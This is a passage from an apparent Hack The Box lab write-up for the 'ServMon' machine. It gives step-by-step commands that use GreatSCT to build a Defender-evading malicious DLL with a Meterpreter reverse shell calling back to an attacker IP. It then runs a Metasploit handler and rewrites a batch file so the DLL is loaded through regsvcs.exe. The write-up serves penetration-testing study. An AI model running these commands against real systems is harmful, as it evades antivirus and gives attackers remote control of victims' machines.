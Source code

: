 ### Bypassing Defender with `GreatSCT.py`

A solution to ocvercome this issue is to use [GreatSCT](https://github.com/GreatSCT/GreatSCT) to generate a malicious DLL:

```bash
$ ./GreatSCT.py --ip 10.10.14.12 --port 443 -t bypass -p regsvcs/meterpreter/rev_tcp.py -o serv
```

![Desktop View](/assets/img/htb/machines/windows/easy/servmon/great_scott.png)

Then we can run **metasploit** with the generated RC file:

```bash
$ msfconsole -r /usr/share/greatsct-output/handlers/serv.rc
```

After that, we have to transfer the `serv.dll` file using either `scp` or `wget` or whatever.

Finally, we have to change `C:\Temp\shell.bat`'s content:

```cmd
nadine@SERVMON C:\Temp> cmd /c "echo C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe C:\Temp\serv.dll > C:\Temp\shell.bat"
```

Go to `Console`, run **shell**, and you'll get this beautiful message: `Meterpreter session 1 opened` 

![Desktop View](https://i.imgur.com/vRU0Fum.gif)
